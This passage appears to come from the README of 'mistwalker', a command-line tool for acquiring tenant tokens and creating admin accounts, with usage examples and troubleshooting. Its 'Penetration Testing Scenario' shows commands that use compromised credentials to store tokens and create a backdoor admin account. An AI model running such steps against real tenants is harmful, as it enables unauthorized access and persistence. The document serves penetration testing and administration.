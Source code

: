 5. **Audit Trail**:
   - All operations are logged
   - Use `--debug` for detailed operation logs
   - Monitor created accounts and role assignments

## Examples

### Penetration Testing Scenario

```bash
# 1. Acquire tokens using compromised credentials
mistwalker auth \
  -tenant target.com -domain target.local -dc_host dc.target.local \
  -username compromised_user -password found_password \
  --store-tokens

# 2. Create backdoor admin account
mistwalker admin create-admin \
  -u backdoor@target.com --generate-password

# 3. Audit existing admins
mistwalker admin list-admins
```

### Administrative Scenario

```bash
# 1. Authenticate with admin credentials
mistwalker auth \
  -tenant company.com -domain company.local -dc_host dc.company.local \
  -username admin -password admin_pass \
  --store-tokens

# 2. Create new admin user
mistwalker admin create-admin \
  -u newadmin@company.com --generate-password

# 3. Audit all admins
mistwalker admin list-admins
```

## Troubleshooting

### Common Issues

1. **Token Acquisition Fails**
   ```bash
   # Test connectivity and credentials
   mistwalker auth -tenant corp.com -domain corp.local -dc_host dc.corp.local -username user -password pass --debug
   ```
